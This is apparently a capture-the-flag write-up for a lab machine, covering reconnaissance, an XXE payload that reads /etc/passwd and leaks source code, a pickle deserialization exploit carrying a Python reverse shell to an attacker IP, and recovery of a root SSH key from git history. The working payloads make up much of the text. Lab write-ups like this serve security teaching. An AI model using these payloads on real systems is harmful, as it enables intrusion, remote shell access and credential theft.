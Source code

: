 ![](./logo.png)

# USER

Performing the nmap scan gives us http page hosted using `Gunicorn`. There is mention of a `dev.solita.fi` backend on the page.

Using gobuster I have found an `upload` endpoint. It provides an xml structure


Uploading the XML below:
```xml
<note>
    <Author>Author</Author>
    <Subject>Subject</Subject>
    <Content>Content</Content>
</note>
```

Provides us with the message:
```
PROCESSED BLOGPOST: Author: Author Subject: Subject Content: Content URL for later reference: /uploads/payload.xml File path: /home/roosa/deploy/src
```

This seems like files go to the `uploads` endpoint. Lets check out if a non xml file goes there.

The parsing of the xml is vulnerable to XML External Entity (XXE Injection) attacks.

With this payload
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root> 
    <Author>&test;</Author>
    <Subject>Subject</Subject>
    <Content>Content</Content>
</root>
```

We can leak the `/etc/passwd`!

Previously the `feed.py` was mentioned. And we have a leaked file path (/home/roosa/deploy/src). We can use the payload above to leak the `feed.py`


It all comes out unformatted onto the webpage but with a little fixing we get this:
```python
def uploaded_file(filename): 
    return send_from_directory(Config.UPLOAD_FOLDER, filename) 
    
@app.route("/") 
def xss(): 
    return template('index.html') 
    
@app.route("/feed") 
def fakefeed(): 
    return send_from_directory(".","devsolita-snapshot.png") 
    
@app.route("/newpost", methods=["POST"]) 
def newpost(): # TODO: proper save to database, this is for testing purposes right now 
    picklestr = base64.urlsafe_b64decode(request.data) 
    #return picklestr 
    postObj = pickle.loads(picklestr) 
    return "POST RECEIVED: " + postObj['Subject'] ## TODO: VERY important! DISABLED THIS IN PRODUCTION 
    
    # app = DebuggedApplication(app, evalex=True, console_path='/debugconsole') # TODO: Replace run-gunicorn.sh with real Linux service script 
    # app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')

if __name__ == "__main__":
    app.run(host='0.0.0,0', Debug=True)
```

We can see from the leaked source code that the `/newpost` endpoint is using `pickle`. I know from experience that this is vulnerable to a pickle reverse shell.

Due to the webserver being run on python I know that a python reverse shell will work.

```
Please NOTE: Python2 and Python3 will create different pickle strings
```

Using the pickle exploit:

```python
payload = "python -c 'import socket,subprocess,os;IP=\"10.10.14.55\";PORT=6868;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

class ReverseShell(object):
    def __reduce__(self):
        import os
        return (os.system, (payload,))
```

We are able to gain a reverse shell on the target. This runs the code because when the `unpickle` method is called it wil always resolve the `__reduce__` method causing our payload to run.

This gives us the ability to `cat` the `user.txt`.

# ROOT

Running lse.sh gives us the presence of a `.git` file in the home directory of roosa. This is interesting because these folders can be a treasure trove of useful information.

Reading through the commit history we see mention of a keys:

```
commit: add key for feed integration from tnerprise backend
commit: reverted accidental commit with proper key
```

This is interesting because incorrect keys can easily be committed. Files can be recovered from .git repos by using GitTools `extractor.sh`

Running:

```
./extractor.sh <LOCATION OF .git> <OUTPUT DIR>
```

Outputs the files for the second commit. Inside is a key that when tested is the `root` ssh key.
